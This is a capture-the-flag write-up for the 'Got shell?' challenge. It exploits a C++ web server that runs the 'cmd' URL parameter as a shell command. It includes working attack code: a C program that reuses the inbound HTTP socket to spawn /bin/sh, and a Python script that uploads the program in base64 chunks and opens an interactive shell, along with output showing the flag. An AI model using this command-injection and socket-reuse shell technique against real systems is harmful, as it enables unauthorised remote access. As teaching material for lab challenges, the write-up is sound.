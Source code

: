 # Got shell?
- Points: 319
- Solves: 37
- Author: semchapeu

Can you get a shell? NOTE: The firewall does not allow outgoing traffic & There are no additional paths on the website.

# Solution

Visiting http://3.93.128.89:1224/ yields the following C++ code:

```C++
#include "crow_all.h"
#include <cstdio>
#include <iostream>
#include <memory>
#include <stdexcept>
#include <string>
#include <array>
#include <sstream>

std::string exec(const char* cmd) {
    std::array<char, 128> buffer;
    std::string result;
    std::unique_ptr<FILE, decltype(&pclose)> pipe(popen(cmd, "r"), pclose);
    if (!pipe) {
        return std::string("Error");
    }
    while (fgets(buffer.data(), buffer.size(), pipe.get()) != nullptr) {
        result += buffer.data();
    }
    return result;
}

int main() {
    crow::SimpleApp app;
    app.loglevel(crow::LogLevel::Warning);

    CROW_ROUTE(app, "/")
    ([](const crow::request& req) {
        std::ostringstream os;
        if(req.url_params.get("cmd") != nullptr){
            os << exec(req.url_params.get("cmd"));
        } else {
            os << exec("cat ./source.html"); 
        }
        return crow::response{os.str()};
    });

    app.port(1224).multithreaded().run();
}
```

From this it becomes clear, that it is possible to run commands via the `cmd` URL parameter.

For example http://3.93.128.89:1224/?cmd=ls+-la;id results in:

```
total 44
drwxr-xr-x 1 root root      4096 Dec 24 11:56 .
drwxr-xr-x 1 root root      4096 Dec 24 11:56 ..
----r----- 1 root gotshell    38 Dec 24 08:32 flag
------s--x 1 root gotshell 17576 Dec  5 17:26 flag_reader
-rw-rw-r-- 1 root root     10459 Dec 24 08:32 source.html
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
```

From that we can see that we do not have read access to the `flag` file, but there is a `flag_reader` with setgid permissions.

Executing http://3.93.128.89:1224/?cmd=./flag_reader gives us:
```
Got shell?
741106133 + 1459419563 = Incorrect captcha :(
```

The `flag_reader` program expects the sum of two random numbers from stdin.
The main crux of this challenge is how to get these two numbers and input the sum back into the program, because the way commands are executed you only get the result of a command once it's finished executing.

`/tmp/` is world writeable but not world readable.

The CTF players came up with many clever methods. Some of their solutions included the use of FIFOs (`mkfifo`), Coprocesses (`coproc`) and uploading a program that does the interaction with the `flag_reader` on their behalf.

However as far as I know nobody managed to actually get an interactive shell, which is possible though.
So I will show how to get an interactive shell.


Running `ls -la /proc/$$/fd` shows that we inherit multiple sockets from our parent process. 
```
 total 0
dr-x------ 2 nobody nogroup  0 Dec 27 14:53 .
dr-xr-xr-x 9 nobody nogroup  0 Dec 27 14:53 ..
lr-x------ 1 nobody nogroup 64 Dec 27 14:53 0 -> /dev/null
l-wx------ 1 nobody nogroup 64 Dec 27 14:53 1 -> pipe:[82003624]
l-wx------ 1 nobody nogroup 64 Dec 27 14:53 2 -> /dev/null
lrwx------ 1 nobody nogroup 64 Dec 27 14:53 33 -> socket:[81999177]
lrwx------ 1 nobody nogroup 64 Dec 27 14:53 34 -> socket:[82003618]
lrwx------ 1 nobody nogroup 64 Dec 27 14:53 35 -> socket:[82003622]
lrwx------ 1 nobody nogroup 64 Dec 27 14:53 6 -> socket:[81225592]
```

The idea to get an interactive shell is to reuse the socket we used to send the HTTP request and use this channel to communicate with a shell.
During the peak time during the CTF it was possible to inherit hundreds of active sockets, so we need to find a way to identify the right socket.

I wrote a small program that takes care of this, and my solution script uploads and executes this program.

This program selects and reuses the socket and then spawns a shell.
```C
#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <stdio.h>
#include <unistd.h>

const long public_ip = 0x7f000001; // 127.0.0.1, CHANGE THIS to your public ip! 

int main(int argc, const char *argv[]){
  struct sockaddr_in *s;
  socklen_t s_len = sizeof(s);
  long ip;

  for(int sock_fd=0; sock_fd<65536; sock_fd++){

    // finding sockets
    if(getpeername(sock_fd, (struct sockaddr*) &s, &s_len) != 0)
      continue;

    // checking IP connected to socket, to select the correct socket
    ip = ntohl(*(((int *)&s)+1));
    if(ip != public_ip)
        continue;

    // redirect fd's into socket
    for (int i=0; i<3; i++)    
     dup2(sock_fd, i); 

    // spawn shell
    char *arg[] = {"/bin/sh",0};
    execve("/bin/sh", arg, NULL);
  }

  puts("Not Found\n");

  return 0;
}
```

This script takes care of the rest:
```Python
#!/usr/bin/env python3
import requests
import readline
from pwn import *

host = "3.93.128.89"
port = 1224

url = "http://{}:{}/".format(host,port)

def run(cmd, redir_stderr=False):
	if redir_stderr:
		cmd += " 2>&1"
	params = {"cmd":cmd}
	r = requests.get(url,params=params)
	return r.text

def fake_shell():
	while True:
		cmd = input("> ").strip()
		if cmd == "exit":
			return
		print(run(cmd,redir_stderr=True))

def real_shell(executor):
	r = remote(host,port)
	request = "GET /?cmd={} HTTP/1.1\r\nHost: {}:{}\r\nUser-Agent: curl/7.66.0\r\nAccept: */*\r\n\r\n"
	r.send(request.format(executor,host,port))
	r.interactive()

def upload_file(ipath, opath):
	with open(ipath,'rb') as f:
		data = f.read()
	chunks = group(1024, data)
	for chunk in chunks:
		chunk = b64e(chunk)
		run("echo {} |base64 -d >> {}".format(chunk,opath))

# fake_shell()
tmp_dir = run("mktemp -d").strip()
print(tmp_dir)
tmp_file = tmp_dir+"/a.out"
upload_file("./a.out",tmp_file)
run("chmod +x {}".format(tmp_file))
real_shell(tmp_file)
run("rm -rf {}".format(tmp_dir))
#fake_shell()
```

Get a shell :D
```
$ python3 solution.py
/tmp/tmp.dK72FGfbXz
[+] Opening connection to 3.93.128.89 on port 1224: Done
[*] Switching to interactive mode
sh: turning off NDELAY mode
$ ls
flag
flag_reader
source.html
$ ./flag_reader
Got shell?
313937817 + 567834239 = $ 881772056
AOTW{d1d_y0u_g3t_4n_1n73r4c71v3_5h3ll}$ exit
HTTP/1.1 200 OK
Content-Length: 0
Server: Crow/0.1
Date: Fri, 27 Dec 2019 15:14:14 GMT
```

